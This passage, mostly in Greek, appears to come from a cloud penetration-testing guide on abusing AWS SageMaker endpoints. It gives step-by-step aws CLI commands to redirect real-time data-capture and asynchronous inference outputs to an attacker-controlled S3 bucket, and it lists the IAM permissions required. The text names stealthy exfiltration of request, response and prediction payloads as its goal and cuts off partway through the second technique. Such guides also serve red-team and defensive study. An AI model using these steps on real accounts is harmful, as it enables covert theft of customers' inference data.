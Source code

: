 ```bash
--data-capture-config file:///tmp/dc.json
```
4) Εφαρμόστε τη νέα διαμόρφωση με μια διαδοχική ενημέρωση (ελάχιστη/καμία διακοπή λειτουργίας)
```bash
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```
5) Δημιουργήστε τουλάχιστον μία κλήση inference (προαιρετικό αν υπάρχει ζωντανή κίνηση)
```bash
echo '{"inputs":[1,2,3]}' > /tmp/payload.json
aws sagemaker-runtime invoke-endpoint --region $REGION --endpoint-name "$EP" \
--content-type application/json --accept application/json \
--body fileb:///tmp/payload.json /tmp/out.bin || true
```
6) Επικυρώστε captures στο attacker S3
```bash
aws s3 ls s3://$BUCKET/capture/ --recursive --human-readable --summarize
```
### Επιπτώσεις
- Full exfiltration of real‑time inference request and response payloads (and metadata) από το στοχευμένο endpoint σε attacker‑controlled S3 bucket.
- Χωρίς αλλαγές στο model/container image και με αλλαγές μόνο σε επίπεδο endpoint, επιτρέποντας μια stealthy data theft path με ελάχιστη λειτουργική διαταραχή.


## SageMaker async inference output hijack via UpdateEndpoint AsyncInferenceConfig

Καταχραστείτε τη διαχείριση του endpoint για να ανακατευθύνετε τα asynchronous inference outputs σε attacker-controlled S3 bucket, κλωνοποιώντας το τρέχον EndpointConfig και ρυθμίζοντας το AsyncInferenceConfig.OutputConfig S3OutputPath/S3FailurePath. Αυτό exfiltrates τις model predictions (και οποιαδήποτε transformed inputs που περιλαμβάνει το container) χωρίς να τροποποιήσετε το model/container.

### Απαιτήσεις
- IAM: `sagemaker:DescribeEndpoint`, `sagemaker:DescribeEndpointConfig`, `sagemaker:CreateEndpointConfig`, `sagemaker:UpdateEndpoint`
- S3: Δυνατότητα εγγραφής στο attacker S3 bucket (μέσω του model execution role ή μέσω μιας permissive bucket policy)
- Target: Ένα InService endpoint όπου asynchronous invocations χρησιμοποιούνται (ή θα χρησιμοποιηθούν)

### Βήματα
1) Συλλέξτε τα τρέχοντα ProductionVariants από το στοχευμένο endpoint
```bash
REGION=${REGION:-us-east-1}
EP=<target-endpoint-name>
CUR_CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CUR_CFG" --query ProductionVariants > /tmp/pv.json
```
2) Δημιουργήστε έναν attacker bucket (βεβαιωθείτε ότι το model execution role μπορεί να κάνει PutObject σε αυτόν)
```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-async-exfil-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION || true
```
3) Κλωνοποιήστε το EndpointConfig και hijack τα AsyncInference outputs στο attacker bucket
```bash
NEWCFG=${CUR_CFG}-async-exfil
cat > /tmp/async_cfg.json << JSON
```